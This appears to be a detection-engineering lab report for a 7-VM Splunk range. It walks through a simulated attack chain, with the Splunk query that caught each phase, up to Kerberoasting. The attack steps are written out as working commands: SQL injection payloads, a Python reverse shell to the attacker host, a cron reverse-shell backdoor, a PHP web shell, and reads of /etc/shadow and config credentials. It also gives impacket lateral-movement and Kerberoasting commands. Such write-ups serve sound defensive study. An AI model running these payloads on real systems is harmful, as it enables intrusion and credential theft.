# Operation Shadow Grid

A Splunk security-monitoring lab that simulates a 7-phase enterprise attack chain across a 7-VM environment, then validates detection coverage at each stage. Every phase — from initial reconnaissance through domain compromise and data exfiltration — was executed and detected using Splunk Enterprise fed by Zeek, Suricata, Sysmon, Windows Security logs, and Linux syslog.

15 detection rules were written and mapped to MITRE ATT&CK. 12 fired on real attack data from this engagement. 3 are staged for techniques not exercised in this run.

| | |
|---|---|
| SIEM | Splunk Enterprise 9.2.1 |
| Detection rules | 15 (12 active, 3 staged) |
| MITRE ATT&CK coverage | 14 techniques across 8 tactics |
| Environment | 7-VM VMware Workstation range |
| Domain | SHADOWGRID.LOCAL |
| Attack phases | 7 executed and detected |

---

## Key findings

All 7 attack phases were detected in Splunk, covering 14 MITRE ATT&CK techniques across 8 tactics. The full kill chain is reconstructable from the SIEM alone — a SOC analyst with no prior context can trace reconnaissance through domain compromise and exfiltration using only the queries documented in this report.

The most significant detection gap was the reverse shell, which traversed the NAT segment that Zeek does not monitor. This was closed with a host-based syslog detection (Detection 15), demonstrating a layered approach where one telemetry source compensates for another's blind spot.

High-fidelity detections confirmed during this engagement include DCSync via Event 4662 and the DS-Replication-Get-Changes-All GUID, Kerberoasting via Event 4769 with RC4 encryption type (`0x17`), and DNS tunneling via Zeek query-length and SERVFAIL analysis.


*Splunk log-source inventory — all indexes and hosts actively forwarding.*

---

## Table of contents

1. [Executive summary](#executive-summary)
2. [Lab environment](#lab-environment)
3. [Attack timeline](#attack-timeline)
   - [Phase 1 — Reconnaissance](#phase-1--reconnaissance-t1046)
   - [Phase 2 — Initial access](#phase-2--initial-access-t1190)
   - [Phase 3 — Persistence](#phase-3--persistence-t1053003--t1505003)
   - [Phase 4 — Privilege escalation](#phase-4--privilege-escalation-t1078003)
   - [Phase 5 — Lateral movement](#phase-5--lateral-movement-t1021002)
   - [Phase 6 — Domain compromise](#phase-6--domain-compromise)
   - [Phase 7 — Data exfiltration](#phase-7--data-exfiltration-t1048003)
4. [Detection summary matrix](#detection-summary-matrix)
5. [Detection gaps and recommendations](#detection-gaps-and-recommendations)
6. [MITRE ATT&CK coverage map](#mitre-attck-coverage-map)
7. [Tools used](#tools-used)
8. [Lessons learned](#lessons-learned)

---

## Executive summary

Operation Shadow Grid is a detection-engineering lab built to answer one question: given a realistic enterprise attack chain, what can the SIEM actually see?

The exercise was structured in two halves. First, a full attack was executed across a 7-VM virtualized network — reconnaissance, initial access through a vulnerable web application, persistence via cron and web shell, privilege escalation through password reuse, lateral movement into the Windows domain via SMBExec, domain compromise through Kerberoasting and DCSync, and data exfiltration via DNS tunneling. Second, each phase was investigated in Splunk to determine what evidence was captured, where the gaps were, and how to close them.

The result: all 7 phases were detected. Detection gaps were identified, documented, and where possible closed with compensating controls. The project deliverable is both an offensive walkthrough and the defensive detection engineering that catches it.

---

## Lab environment

### Network architecture


*NAT staging network, pfSense firewall, and the internal 10.10.10.0/24 LAN hosting the AD domain, web target, and SIEM sensor.*

```
┌─────────────────────────────────────────────────────────────┐
│                     NAT Network (VMnet8)                     │
│                    192.168.119.0/24                          │
│                                                              │
│  ┌──────────┐    ┌──────────────┐    ┌───────────────┐       │
│  │   Kali   │    │  WebServer   │    │ SplunkServer  │       │
│  │ .129     │    │  .131        │    │  .132         │       │
│  └────┬─────┘    └──────┬───────┘    └──────┬────────┘       │
│       │                 │                   │                │
└───────┼─────────────────┼───────────────────┼───────────────┘
        │                 │                   │
   ┌────┴─────────────────┴───────────────────┴───────────────┐
   │              pfSense Firewall (10.10.10.1)                │
   │                    VMnet2 (LAN)                           │
   │                  10.10.10.0/24                            │
   │                                                           │
   │  ┌────────┐    ┌────────┐    ┌────────┐    ┌───────────┐  │
   │  │  DC01  │    │  WS01  │    │  WS02  │    │ WebServer │  │
   │  │ .10    │    │  .20   │    │  .30   │    │   .50     │  │
   │  └────────┘    └────────┘    └────────┘    └───────────┘  │
   │                                                           │
   │  ┌───────────────┐                                        │
   │  │ SplunkServer  │                                        │
   │  │     .60       │                                        │
   │  └───────────────┘                                        │
   └───────────────────────────────────────────────────────────┘
```

Kali attacks through NAT, so in Zeek and Suricata logs the attacker traffic appears as source IP 10.10.10.1 (pfSense), not Kali's address. The reverse shell traverses the NAT segment, which the Zeek sensor does not see — this is the basis of the primary detection gap discussed in [Gap 1](#gap-1-reverse-shell-over-nat).

### VM inventory

| VM | OS | IP (LAN) | IP (NAT) | Role |
|----|----|----------|----------|------|
| pfSense | pfSense CE 2.7.2 | 10.10.10.1 | 192.168.119.128 | Firewall / Router |
| DC01 | Windows Server 2022 | 10.10.10.10 | — | Active Directory Domain Controller |
| WS01 | Windows 10 Pro | 10.10.10.20 | — | Domain Workstation |
| WS02 | Windows 10 Pro | 10.10.10.30 | — | Domain Workstation |
| WebServer | Ubuntu 24.04 LTS | 10.10.10.50 | 192.168.119.131 | DVWA Vulnerable Web App |
| SplunkServer | Ubuntu 24.04 LTS | 10.10.10.60 | 192.168.119.132 | Splunk SIEM + Zeek + Suricata |
| Kali | Kali Linux | — | 192.168.119.129 | Attacker Machine |

### Domain configuration

| | |
|---|---|
| Domain | SHADOWGRID.LOCAL |
| Domain Admin | Administrator |
| Domain Users | j.smith (IT), s.jones (HR), m.wilson (Finance) |
| Service Account | svc_web — SPN: HTTP/webserver.shadowgrid.local |

### Log sources

| Source | Index | Sourcetype | Collection method |
|--------|-------|------------|-------------------|
| Windows Security Logs | idx_windows | WinEventLog:Security | Universal Forwarder |
| Windows System Logs | idx_windows | WinEventLog:System | Universal Forwarder |
| Sysmon | idx_windows | XmlWinEventLog:Microsoft-Windows-Sysmon/Operational | Universal Forwarder |
| PowerShell Operational | idx_windows | WinEventLog:Microsoft-Windows-PowerShell/Operational | Universal Forwarder |
| pfSense Syslog | idx_firewall | syslog | UDP 514 |
| Linux auth / auditd | idx_firewall | syslog | rsyslog forwarding |
| Apache Access Logs | idx_firewall | syslog | rsyslog forwarding |
| Zeek conn.log | idx_network | zeek:conn | Zeek on SplunkServer |
| Zeek dns.log | idx_network | zeek:dns | Zeek on SplunkServer |
| Zeek http.log | idx_network | zeek:http | Zeek on SplunkServer |
| Zeek ssl.log | idx_network | zeek:ssl | Zeek on SplunkServer |
| Suricata eve.json | idx_ids | suricata:eve | Suricata on SplunkServer |

---

## Attack timeline

All timestamps are UTC. Kali attack traffic routes through NAT and appears as source IP 10.10.10.1 (pfSense) in Zeek and Suricata logs.

---

### Phase 1 — Reconnaissance (T1046)

Objective: enumerate the target network and identify live hosts, open ports, and web application structure.

#### 1.1 — Nmap port scan

```bash
nmap -sS -sV -O -p- 10.10.10.50
```

Result: identified open ports on WebServer — HTTP (80/tcp), SSH (22/tcp), MySQL (3306/tcp). OS fingerprinting confirmed Ubuntu Linux.

Splunk detection:
```spl
index=idx_network sourcetype="zeek:conn" id_resp_h="10.10.10.50" id_orig_h="10.10.10.1" proto=tcp conn_state="REJ"
```
Evidence: 129,038 rejected TCP connections (`conn_state=REJ`) from a single source (10.10.10.1, the attacker via NAT) to the WebServer, spanning 100+ distinct destination ports. A `conn_state` breakdown shows 129,038 REJ (closed ports answering RST) versus only 112 SF connections, which reveal the open services (HTTP, SSH, MySQL).

Because closed ports reply with RST, Zeek records this scan as REJ rather than S0 (half-open). S0 would appear only against filtered ports that silently drop packets. Here pfSense rejected them, producing the higher-fidelity REJ volume.


*129,038 REJ TCP connections from a single source across 100+ ports in Zeek conn.log.*

#### 1.2 — Gobuster directory brute-force

```bash
gobuster dir -u http://10.10.10.50/DVWA/ -w /usr/share/wordlists/dirb/common.txt -t 10
```

Result: discovered DVWA structure including `/login.php`, `/setup.php`, `/vulnerabilities/`.

Splunk detection:
```spl
index=idx_network sourcetype="zeek:http" id_resp_h="10.10.10.50" status_code=404
```
Evidence: hundreds of 404 responses in rapid succession from a single source. User-agent: `gobuster/3.8`.

---

### Phase 2 — Initial access (T1190)

Objective: exploit DVWA vulnerabilities to gain code execution on the WebServer.

#### 2.1 — SQL injection [T1190]

```sql
-- Confirm injection
1' OR '1'='1
-- Extract credentials
1' UNION SELECT user, password FROM users#
```

Result: extracted 5 DVWA user accounts with MD5 password hashes.

| Username | MD5 hash | Cracked password |
|----------|----------|------------------|
| admin | 5f4dcc3b5aa765d61d8327deb882cf99 | password |
| gordonb | e99a18c428cb38d5f260853678922e03 | abc123 |
| 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | charley |
| pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein |
| smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | password |

Splunk detection:
```spl
index=idx_network sourcetype="zeek:http" id_resp_h="10.10.10.50" uri="*UNION*SELECT*"
```
Evidence: Zeek http.log captured the credential-extraction payload in the request URI — `GET /DVWA/vulnerabilities/sqli/?id=1' UNION SELECT user, password FROM users#`, returning HTTP 200. The preceding `' OR '1'='1` confirmation probe is visible in the request referer, showing the confirm-then-extract injection sequence reconstructable from network telemetry alone.


*UNION SELECT payload in the request URI, captured at the network layer by Zeek.*

#### 2.2 — Command injection [T1059.004]

```bash
; whoami            # www-data
; id                # uid=33(www-data) gid=33(www-data)
; uname -a          # Linux webserver 6.8.0-117-generic x86_64
; cat /etc/passwd   # found sysadmin (uid 1000)
; ip addr show      # confirmed dual NIC (NAT + LAN)
; which nc python3 bash   # all available
```

Splunk detection:
```spl
index=idx_firewall host="10.10.10.50" sourcetype="syslog" "vulnerabilities/exec"
```
Evidence: 26 events showing `POST /DVWA/vulnerabilities/exec/` returning HTTP 200 in the Apache access log (forwarded via syslog to idx_firewall). The injected commands themselves travel in the POST body, which Apache access logging does not record. The web layer proves the vulnerable endpoint was repeatedly exercised; capturing the command content would require auditd or Sysmon-for-Linux process auditing.


*Apache access log showing POST requests to the command-injection endpoint.*

#### 2.3 — Reverse shell [T1059.004]

```bash
# Kali listener
nc -lvnp 4444

# Injected payload (via DVWA command injection)
; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.129",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'

# Shell stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z ; stty raw -echo && fg ; export TERM=xterm
```

Result: stable interactive shell as `www-data@webserver`.

Splunk detection:
```spl
index=idx_firewall host="10.10.10.50" sourcetype="syslog" "vulnerabilities/exec"
```
Evidence: Apache access logs captured every POST that delivered the payload.

Detection gap: the reverse shell itself egressed over the NAT segment (192.168.119.x), which the Zeek sensor does not monitor. The outbound connection was invisible to network detection. This gap is closed by host-based syslog Detection 15 and discussed in [Gap 1](#gap-1-reverse-shell-over-nat).

---

### Phase 3 — Persistence (T1053.003 + T1505.003)

Objective: establish persistent access mechanisms on the compromised WebServer.

#### 3.1 — Cron job backdoor [T1053.003]

```bash
(crontab -l 2>/dev/null; echo "*/5 * * * * /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.129\",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])'") | crontab -
```

Result: reverse-shell cron job installed for www-data, executing every 5 minutes.

Splunk detection:
```spl
index=idx_firewall host="10.10.10.50" sourcetype="syslog" cron
```
Evidence: syslog captured the cron-job execution events on each 5-minute cycle.

#### 3.2 — Web shell [T1505.003]

```bash
cat > /var/www/html/DVWA/hackable/uploads/info.php << 'EOF'
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}?>
EOF

# Verification
curl "http://10.10.10.50/DVWA/hackable/uploads/info.php?cmd=whoami"   # www-data
```

Splunk detection:
```spl
index=idx_firewall host="10.10.10.50" sourcetype="syslog" "uploads/info.php"
```
Evidence: Apache syslog captured the web-shell access — URI `info.php?cmd=whoami`, status 200, user-agent `curl/8.17.0`.


*info.php?cmd=whoami request in Splunk — a command parameter on an uploaded PHP file in an uploads directory.*

---

### Phase 4 — Privilege escalation (T1078.003)

Objective: escalate from www-data to root on the WebServer.

#### 4.1 — Enumeration

```bash
sudo -l                                  # No sudo access for www-data
find / -perm -4000 -type f 2>/dev/null   # Only default SUID binaries
getcap -r / 2>/dev/null                  # No exploitable capabilities
ls -la /etc/passwd /etc/shadow           # Not writable
```
Result: standard privesc vectors were locked down.

#### 4.2 — Password reuse: www-data to sysadmin [T1078.003]

```bash
su sysadmin     # Password: <reused WebServer credential>
```
Result: the WebServer credential was reused for the local sysadmin account.

#### 4.3 — Sudo escalation: sysadmin to root [T1548.003]

```bash
sudo -l         # (ALL : ALL) ALL
sudo su -       # root shell
```

Splunk detection:
```spl
index=idx_firewall host="10.10.10.50" sourcetype="syslog" (su OR sudo)
```
Evidence (escalation chain in syslog):
- `sudo: sysadmin : TTY=pts/0 ; USER=root ; COMMAND=/usr/bin/su -`
- `su: session opened for user root(uid=0) by sysadmin(uid=0)`
- `sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sysadmin(uid=1000)`

Escalation chain: www-data (uid=33) to sysadmin (uid=1000) via password reuse, then sysadmin to root (uid=0) via sudo ALL.


*The sudo-to-root escalation sequence reconstructed from Linux auth syslog.*

---

### Phase 5 — Lateral movement (T1021.002)

Objective: pivot from the compromised WebServer into the Windows domain.

#### 5.1 — Credential harvesting from WebServer

```bash
cat /etc/shadow                               # sysadmin yescrypt hash
cat /var/www/html/DVWA/config/config.inc.php  # MySQL creds: dvwa / dvwa123
```

| Source | Username | Notes |
|--------|----------|-------|
| WebServer local account | sysadmin | Password reused into the domain |
| DVWA MySQL | dvwa | Application DB credentials |
| DVWA users (Phase 2 SQLi) | admin, gordonb, 1337, pablo, smithy | Cracked from MD5 |

#### 5.2 — SMBExec to WS01 [T1021.002]

```bash
impacket-smbexec 'SHADOWGRID/Administrator:<password>@10.10.10.20'
# nt authority\system on WS01
```

Note: `impacket-psexec` failed due to remote UAC restrictions on admin shares. `impacket-smbexec` succeeded, yielding a SYSTEM shell.

Splunk detection — Windows Security (network logon):
```spl
index=idx_windows host="WS01" sourcetype="WinEventLog:Security" EventCode=4624 Logon_Type=3 Account_Name="Administrator"
```
Evidence: network logon (Type 3) on WS01 — Account_Name: Administrator, Account_Domain: SHADOWGRID, Authentication_Package: NTLM, Elevated_Token: Yes, Source_Network_Address: 10.10.10.1.


*Event 4624 Logon Type 3 — the remote network authentication created by the SMBExec session.*

Splunk detection — special privileges:
```spl
index=idx_windows host="WS01" sourcetype="WinEventLog:Security" EventCode=4672
```
Evidence: special-privilege logon for NT AUTHORITY\SYSTEM — SeDebugPrivilege, SeImpersonatePrivilege, SeTakeOwnershipPrivilege assigned.

Splunk detection — network (Zeek):
```spl
index=idx_network sourcetype="zeek:conn" id_resp_h="10.10.10.20" id_resp_p=445
```
Evidence: SMB connection 10.10.10.1 to 10.10.10.20:445, service gssapi/smb/ntlm, 70+ KB transferred.


*Zeek conn.log showing the SMB session to port 445.*

Detection gap: the SMBExec service creation was too short-lived to land reliably in Event 7045. See [Gap 2](#gap-2-smbexec-service-creation-not-captured).

---

### Phase 6 — Domain compromise

Objective: compromise Active Directory — extract all credentials and achieve full domain control.

#### 6.1 — Kerberoasting [T1558.003]

```bash
impacket-GetUserSPNs 'SHADOWGRID.LOCAL/j.smith:<password>' -dc-ip 10.10.10.10 -request
```
Result: extracted the svc_web TGS hash (RC4 / etype 23). A clock-skew error (KRB_AP_ERR_SKEW) was encountered and resolved by syncing the Kali clock to DC01. The hash was cracked with a targeted wordlist.

Splunk detection:
```spl
index=idx_windows host="DC01" sourcetype="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17
```
Evidence: TGS request on DC01 with Ticket_Encryption_Type=0x17 (RC4), Service_Name=svc_web, requested by j.smith@SHADOWGRID.LOCAL, Client_Address=::ffff:10.10.10.1. Modern Kerberos negotiates AES (0x11/0x12), so an RC4 TGS request for a service account is a high-fidelity Kerberoasting indicator.

